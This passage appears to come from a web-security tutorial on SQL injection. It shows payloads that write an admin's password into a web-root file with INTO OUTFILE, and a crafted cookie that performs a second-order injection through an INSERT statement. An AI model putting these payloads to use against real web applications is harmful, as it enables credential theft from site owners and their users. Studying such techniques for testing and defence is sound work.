.

## Step 3: Exfiltrate Information by Using SQL Injections

For example, the following query will cause the database to write the admin’s password into `/var/www/html/output.txt`, a file located on the web root of the target web server:

```sql
SELECT Password FROM Users WHERE Username='admin'
INTO OUTFILE '/var/www/html/output.txt'
```

Then browsering the informations by navigating  [https://example.com/output.txt](https://example.com/output.txt)

This technique is also a good way to detect **second order SQL injections**, since in second-order SQL injections, there is often a time delay between the malicious input and the SQL query being executed.

Say that when you browse `example.com`, the application adds you to a database table to keep track of currently active users. Accessing a page with a cookie, like this

```sql
GET /
Host: example.com
Cookie: user_id=2, username=vickie
```

The application uses an **INSERT statement** to add you to the ActiveUsers table. INSERT statements add a row into the specified table with the specified values:

```sql
INSERT INTO ActiveUsers
VALUES ('2', 'vickie')
```

In this case, an attacker can craft a malicious cookie to inject into the INSERT statement:

```sql
GET /
Host: example.com
Cookie: 1 user_id="2', (SELECT Password FROM Users
WHERE Username='admin'
INTO OUTFILE '/var/www/html/output.txt'));-- ", username=vickie
```

This cookie 1 will, in turn, cause the INSERT statement to save the admin’s password into the output.txt file on the victim server:

```sql
INSERT INTO ActiveUsers
VALUES ('2', (SELECT Password FROM Users
WHERE Username='admin'
INTO OUTFILE '/var/www/html/output.txt'));-- ', 'vickie');
```

.

.
